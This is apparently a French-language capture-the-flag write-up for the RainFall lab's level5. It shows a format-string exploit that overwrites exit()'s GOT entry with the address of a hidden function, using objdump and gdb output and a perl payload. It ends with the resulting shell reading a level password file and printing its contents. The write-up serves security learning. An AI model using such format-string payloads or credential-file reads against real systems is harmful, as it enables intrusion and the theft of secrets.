 # level5

On a un programme qui contient un main et deux fonctions. Le main appelle la fonction n, mais la fonction o, qui nous intéresse pour obtenir le flag, n'est jamais appellée.

On pense donc à devoir changer la valeur d'eip par l'addresse de la fonction o, sauf qu'on n'arrive jamais à la fin du main à cause de la fonction exit().

L'idée serait donc de changer la valeur de l'appel d'exit par l'addresse de la fonction o.

On obtient l'adresse d'exit avec la commande objdump :
```bash
level5@RainFall:~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

L'addresse de o est obtenable directement viagdb :
```bash
(gdb) disassemble o
Dump of assembler code for function o:
   0x080484a4 <+0>:    push   %ebp
   0x080484a5 <+1>:    mov    %esp,%ebp
   0x080484a7 <+3>:    sub    $0x18,%esp
   0x080484aa <+6>:    movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
On utilise la même méthode que le level précédent pour conceptualiser notre payload (0x080484a4 en décimal donne 134513828, moins les 4 caractères déjà écrits) :
```bash
perl -e 'print "\x38\x98\x04\x08"."%134513824x"."%4\$n"' > /tmp/payload
```
La méthode est un peu longue à cause de la grande quantité d'espaces à imprimer mais on finit bien dans la fonction o comme attendu :
```bash
level5@RainFall:~$ cat /tmp/payload - | ./level5

< encore plus d`espaces >

  200
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
